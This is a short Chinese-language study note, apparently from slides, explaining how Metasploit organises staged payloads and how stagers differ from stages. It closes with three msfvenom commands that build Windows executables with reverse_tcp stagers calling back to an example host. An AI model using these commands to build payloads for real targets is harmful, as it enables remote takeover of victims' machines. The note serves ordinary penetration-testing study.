

# msf-载荷
有效负载模块存储在 modules/payloads/{singles,stages,stagers}/<platform>

分阶段(Staged)有效负载： <platform>/[arch]/<stage>/<stager>
对于有效负载 windows/x64/meterpreter/reverse_tcp 来说，平台是windows ，架构是x64 ，提供的final stage是meterpreter ，而提供它的 stager 是reverse_tcp。

Stagers﻿的作用是创建某种形式的通信 ，然后将执行传递到下一个阶段。
使用 stager 可以解决两个问题。 首先，它允许我们最初使用较小的有效负载来加载具有更多功能的较大有效负载 。其次，它可以将通信机制与最终阶段分开 ，因此一个有效负载可以与多种传输一起使用，而无需重复代码。

Stages：由于 stager 将通过分配大块内存供我们运行来处理任何大小限制，因此stages 可以任意大。其优点之一是能够用 C 等高级语言编写最终阶段的有效负载。

所有分阶段的有效负载只不过是建立通信并执行下一阶段的小存根。当您使用分阶段的有效负载创建可执行文件时， 您实际上只是在创建stager 。

下面三条命令将创建功能相同的exe的文件：
msfvenom -f exe LHOST=192.168.1.1 -p windows/meterpreter/reverse_tcp
msfvenom -f exe LHOST=192.168.1.1 -p windows/shell/reverse_tcp
msfvenom -f exe LHOST=192.168.1.1 -p windows/vncinject/reverse_tcp
68